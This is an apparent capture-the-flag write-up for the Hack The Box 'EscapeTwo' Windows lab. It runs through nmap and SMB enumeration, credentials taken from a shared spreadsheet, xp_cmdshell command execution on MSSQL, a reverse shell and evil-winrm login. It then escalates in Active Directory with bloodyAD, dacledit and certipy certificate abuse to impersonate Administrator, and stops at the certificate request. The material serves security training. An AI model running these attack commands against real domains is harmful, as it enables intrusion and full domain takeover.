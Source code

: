 # EscapeTwo Write-up

<img src="https://labs.hackthebox.com/storage/avatars/d5fcf2425893a73cf137284e2de580e1.png" width="200" height="200"> 

MACHINE INFORMATION

As is common in real life Windows pentests, you will start this box with credentials for the following account: `rose`:`KxEPkKe6R8su`

## Recon

### Nmap

`nmap -sC -sV 10.10.11.51`

    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-15 11:23:26Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    |_ssl-date: 2025-01-15T11:25:00+00:00; -8s from scanner time.
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -4s from scanner time.
    1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
    | ms-sql-ntlm-info: 
    |   10.10.11.51:1433: 
    |     Target_Name: SEQUEL
    |     NetBIOS_Domain_Name: SEQUEL
    |     NetBIOS_Computer_Name: DC01
    |     DNS_Domain_Name: sequel.htb
    |     DNS_Computer_Name: DC01.sequel.htb
    |     DNS_Tree_Name: sequel.htb
    |_    Product_Version: 10.0.17763
    |_ssl-date: 2025-01-15T11:25:00+00:00; +1s from scanner time.
    | ms-sql-info: 
    |   10.10.11.51:1433: 
    |     Version: 
    |       name: Microsoft SQL Server 2019 RTM
    |       number: 15.00.2000.00
    |       Product: Microsoft SQL Server 2019
    |       Service pack level: RTM
    |       Post-SP patches applied: false
    |_    TCP port: 1433
    | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
    | Not valid before: 2025-01-15T10:03:32
    |_Not valid after:  2055-01-15T10:03:32
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -8s from scanner time.
    3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -4s from scanner time.
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required
    |_clock-skew: mean: -2s, deviation: 4s, median: -4s
    | smb2-time: 
    |   date: 2025-01-15T11:24:19
    |_  start_date: N/A

### Netexec

`netexec ldap 10.10.11.51  -u rose -p KxEPkKe6R8su`

    SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
    LDAP        10.10.11.51     389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 

Add IP `10.10.11.51` and domain-name `sequel.htb` to `/etc/hosts`. 

    echo "10.10.11.51 sequel.htb" | sudo tee -a /etc/hosts

### Crackmapexec

Try to enumerate SMB.

`crackmapexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su` 

    SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
    
### SMBClient

    smbclient //10.10.11.51/Users -U SEQUEL.HTB//rose

![image](https://github.com/user-attachments/assets/3983400f-79ed-449e-8cb8-2beafca4bd08)

    smbclient //10.10.11.51/Accounting\ Department -U rose --option='client min protocol=SMB2'

![image](https://github.com/user-attachments/assets/18e726a9-5a6f-40b8-a080-0467fb65bf14)

You need to download it using the `get` command and then `unzip` it.

![image](https://github.com/user-attachments/assets/19ff0d71-5676-474e-bfda-a18196fc8bb0)

![image](https://github.com/user-attachments/assets/fe9480bb-040c-4026-952f-176923644ca6)

![image](https://github.com/user-attachments/assets/63b22e56-8c75-4812-b3e8-8ec28c5beb06)

First name, Last name / Email / Username / Password

`Angela Martin`:`angela@sequel.htb`:`angela`:`0fwz7Q4mSpurIt99`

`Oscar Martinez`:`oscar@sequel.htb`:`oscar`:`86LxLBMgEWaKUnBG`

`Kevin Malone`:`kevin@sequel.htb`:`kevin`:`Md9Wlq1E5bZnVDVo`

`NULL`:`sa@sequel.htb`:`sa`:`MSSQLP@ssw0rd!`

### MSSQLServer

    python3 mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51

![image](https://github.com/user-attachments/assets/161f9fc9-bf3c-47a6-a725-fb7cd2eeb755)

SQL (sa  dbo@master)> `enable_xp_cmdshell`

SQL (sa  dbo@master)> `exec xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'`                                           

![image](https://github.com/user-attachments/assets/72fdfd63-da7a-4520-a51d-1dacea12a3f4)

SQLSVCPASSWORD="`WqSZAF6CysDQbGb3`"   

### ReverseShell

![image](https://github.com/user-attachments/assets/f4835fe1-7b9b-4287-83d4-9b8724605276)

xp_cmdshell <Your-base64-shell>

![image](https://github.com/user-attachments/assets/a5f40969-99e1-424a-8051-cdf84320c5c4)

### Evil-winrm

`ryan`:`WqSZAF6CysDQbGb3`

    evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3

Get the user flag!

![image](https://github.com/user-attachments/assets/b08d37e8-7216-4579-986f-872b59c418e6)

### Privelege Escalation 

BloodHound

BloodyAD

    bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan

![image](https://github.com/user-attachments/assets/149fa255-e048-4fc5-89d1-a047916f1414)

Dacledit

    dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'

![image](https://github.com/user-attachments/assets/fe9ee738-8ebd-4bb8-9095-c888448e814e)

Certipy-AD

    certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc

![image](https://github.com/user-attachments/assets/4f3b6c1b-1b5a-4b76-bba1-244794e6fed0)

    3b181b914e7a9d5508ea1e20bc2b7fce

Kerberos

    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout 

![image](https://github.com/user-attachments/assets/cb837f4d-23a7-4f7a-87bd-0ed71d11ec1c)

Request to cert

    certipy-ad req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51

